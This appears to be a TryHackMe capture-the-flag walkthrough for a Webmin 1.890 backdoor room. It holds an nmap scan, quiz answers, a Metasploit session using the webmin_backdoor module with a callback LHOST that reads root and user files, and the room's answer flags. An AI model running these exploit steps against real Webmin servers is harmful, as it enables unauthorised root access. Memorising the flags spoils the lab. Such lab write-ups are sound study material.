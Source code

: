 # THM - AttackerKB

<br>

🔖 https://attackerkb.com/

<br>

## Task 2

### Task 2.2

```shell
nmap -sV -sC -vv -oA scans/initial 10.10.79.75
```

> Webmin

### Task 2.3

> 1.890

### Task 2.4

> source

<br>

## Task 3

https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection

### Task 3.3

> 1.890

### Task 3.4

> Supply Chain

### Task 3.5

> August 17th 2019

### Task 3.6

> August 17th 2019

<br>

## Task 4

```shell
msfconsole
	search webmin_backdoor	
	use 0
		
		show options
		set RHOSTS 10.10.79.75
		set LHOST tun0		# tun0 vs eth0 (VPN)
		set SSL true
		
		run
			whoami
			
			cat /root/root.txt
			
			cat /home/dark/user.txt
```

### Task 4.3

> ssl

### Task 4.4

> THM{SUPPLY_CHAIN_COMPROMISE}

### Task 4.5

> THM{UPDATE_YOUR_INSTALL}



